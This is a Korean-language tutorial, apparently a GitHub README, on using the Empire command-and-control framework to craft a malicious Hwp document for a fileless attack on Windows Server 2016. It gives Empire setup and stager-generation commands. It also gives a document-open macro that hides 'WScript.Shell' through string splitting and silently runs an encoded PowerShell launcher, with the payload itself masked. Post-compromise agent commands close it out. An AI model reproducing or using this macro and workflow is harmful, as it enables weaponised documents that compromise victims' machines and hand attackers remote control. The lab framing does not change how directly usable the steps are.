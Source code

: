 # 엠파이어(Empire)를 사용해 악성한글문서(Hwp)만들어 파일리스(Fileless) 공격하기

- 공격 서버 :smiling_imp: : 칼리 리눅스(Kali Linux amd64)
- 공격 대상 :skull: : 윈도우 서버 2016 (Windows Server 2016)

### 1. :smiling_imp: 엠파이어(Empire) 설치

```
git clone https://github.com/EmpireProject/Empire.git
cd Empire
sudo setup/install.sh
```

### 2. :smiling_imp: 엠파이어 실행 및 세팅

```
./empire
listeners
uselistener http
set Name something
execute
back
usestager windows/launcher_bat
set Listener something
generate
```

![1](https://i.ibb.co/9txJjB1/Fileless-Empire-hwp-1.png)

### 3. :smiling_imp: 악성 한글 문서 제작

1) 도구 > 보안 설정 > 보안수준 낮음 설정
2) 스크립트 매크로 > 실행 > 코드 편집
3) 항목 > Document / Open

```
function OnDocument_Open()
{
try{
  var ws=new ActiveXObject("W"+ "S"+ "c"+ "ri"+ "p"+ "t"+ ".S" +"he" +"ll");
  // launcher.bat의 powershell 실행 코드
  var ps="powershell -noP -sta -w 1 -enc *****"
  ws.Run(ps,0);
}catch(err){}
```

### 4. :skull: 악성 한글 문서 실행

- 사전 조건 : 백신 OFF, 한글 보안수준 낮음 설정, Windows Defender OFF

한글 문서를 오픈해서 스크립트 코드 실행

### 5. :smiling_imp: 세션 연결 성공 후 공격 가능

```
agents
list
interacct agentName
usemodule [tab][tab]

//example
usemodule collection/screenshot
execute
```
